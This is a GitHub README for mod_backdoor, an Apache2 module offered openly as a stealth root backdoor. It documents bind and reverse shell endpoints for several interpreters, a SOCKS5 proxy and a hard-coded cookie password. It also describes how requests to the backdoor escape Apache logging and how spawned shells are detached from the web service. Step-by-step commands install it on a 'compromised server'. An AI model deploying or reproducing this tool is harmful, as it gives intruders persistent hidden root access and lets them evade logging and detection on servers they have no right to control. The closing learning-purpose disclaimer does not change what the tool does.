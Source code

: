 # Apache2 mod_backdoor

mod_backdoor is a stealth backdoor using an Apache2 module.<br/>
The main idea is to fork() the primary Apache2 process just after it has loaded its config.
Since it's forked before the root user transfers the process to www-data, you can execute command as root.<br/>
As Apache2 loads its configuration only when you (re)start it, the challenge was to never let die this 
forked root apache2 process, to let us interact as root with the compromised system.

# Features

* Bind TTY Shell
* Reverse Shell (TTY , Native, PHP, Perl, Python, Ruby)
* High stability and reliability, each shell spawns 
a new forked independent root process **attached to PID 1** and **removed from apache2 cgroup**
* Socks5 proxy
* Password Protection through cookie headers
* Ping module to know if its still active
* Bypass logging mechanism. Each request to the backdoor module **are not logged** by Apache2.

# Demo
[![asciicast](https://asciinema.org/a/mOzJ74TmXJ5IZ5u48rDFx7MqQ.svg)](https://asciinema.org/a/mOzJ74TmXJ5IZ5u48rDFx7MqQ)

# Description

* The password is send through Cookie headers: `Cookie: password=backdoor`. It's defined with `#define` 
in the beginning of mod_backdoor.c, so you could easily edit it.<br/>

* Each following requests must contain this password to interact with the module.<br/>
* Each request containing this cookie **will not be logged by Apache** if the module is running. <br/>

* Each shell spawns **attached to PID** 1 and **is removed from apache2 cgroup**.
 It means it's possible to **restart/stop apache2.service from a spawned shell** (not true for 
 TTY shells because an apache2 process is needed to do the bidirectional communication between socket
 and pty). It also improves stealth, shells are no longer related to apache2.service. <br/>

### Bind TTY Shell
The endpoint  `http[s]://<TARGET>/bind/<PORT>` binds a listening port on `<TARGET>:<PORT>` <br/>
When a connection is initiated to the listening port, the port closes. <br/>
`forkpty()` is used to obtain a native TTY shell, working with an IPC UNIX socket to communicate 
between forked TTY process and the new socket you just opened.<br/>
Shells could be easily upgraded with the famous trick:<br/>
 `CTRL-Z --> stty raw -echo --> fg --> reset`

### Reverse TTY Shell
It works like the bind shell, the endpoint `http[s]://<TARGET>/revtty/<IP>/<PORT>` returns a TTY
shell to `<IP>:<PORT>` <br/>


### Reverse Shell (No TTY)
The endpoint `http[s]://<TARGET>/reverse/<IP>/<PORT>/<PROG>` returns a shell to `<IP>:<PORT>`. <br/>
`<PROG>` must be one of these: <br/>
<p align="center">

| Native   | External  |    
| :------: | :--------:|
|   sh     |    php    |
|   bash   |    python |
|   dash   |    ruby   |
|   ash    |    perl   |
|   tcsh   |           |
|   ksh    |           |

</p>

`<PROG>` must be in lower-case.<br/>
PHP uses the `exec` function.<br/>
Ruby isn't using `/bin/sh`.

### Socks5 proxy
Source code comes from https://github.com/rofl0r/microsocks <br/>
The endpoint `http[s]://<TARGET>/proxy/<PORT>/<USER>` opens a socks5 proxy on `<PORT>`. 
`<USER>` is optional. If you set it, it activates the auth mode. Password is the same as the mod_backdoor.<br/>
Once a specific ip address authed successfully with `user:pass`, it is added to a whitelist and may use the proxy without auth. 
This is handy for programs like firefox that don't support `user:pass` auth.<br/>
For it to work you'd basically make one connection with another program that supports it, and then you can use firefox too.<br/>
Example:<br/>
1. `curl -H 'Cookie: password=backdoor' http://<TARGET>/proxy/1337/vlad` <br/>
--> Start socks proxy on port 1337 for `vlad` user 
2. `curl -x socks5://vlad:password=backdoor@<TARGET>:1337 https://www.google.com` <br/>
--> Register your IP address
3. You could now use it without auth
4. When you're done, you can kill the socks proxy by sending `imdonewithyou` in a socket <br/>
--> `echo "imdonewithyou" | nc <TARGET> 1337`

### Ping module
The endpoint `http[s]://<TARGET>/ping` tells you if the module is currently working.

# Notes
Apache2 Module Backdoor is inspired from Ringbuilder, created by Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))<br/>
More info about Ringbuilder:<br/>
https://github.com/TarlogicSecurity/mod_ringbuilder <br/>
https://www.tarlogic.com/en/blog/backdoors-modulos-apache/ <br/>

Socks5 code was adapted from https://github.com/rofl0r/microsocks <br/>
<br/>
Special thanks to [@Ug_0Security](https://twitter.com/Ug_0Security)

# Builds
For development :<br/>
* `apxs -i -a -c mod_backdoor.c sblist.c sblist_delete.c server.c -Wl,-lutil` <br/>
 `-Wl,-lutil` used to link mod_backdoor.so with libutil.so to use forkpty() from <pty.h>
* `systemctl restart apache2`

On a compromised server :<br/>
* Compile it for the desired arch and retrieve the mod_backdoor.so or<br/>
get it from the `build/` folder (compiled for: Apache/2.4.41 (Debian)).
* Copy mod_backdoor.so to `/usr/lib/apache2/modules/mod_backdoor.so`
* Copy backdoor.load to `/etc/apache2/mod-available/backdoor.load`
* `a2enmod backdoor` --> `systemctl restart apache2`

# Author
Vlad Rico ([@RicoVlad](https://twitter.com/RicoVlad))

## Disclaimer
This project was created only for learning purpose.<br/>
Usage of mod_backdoor for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program.
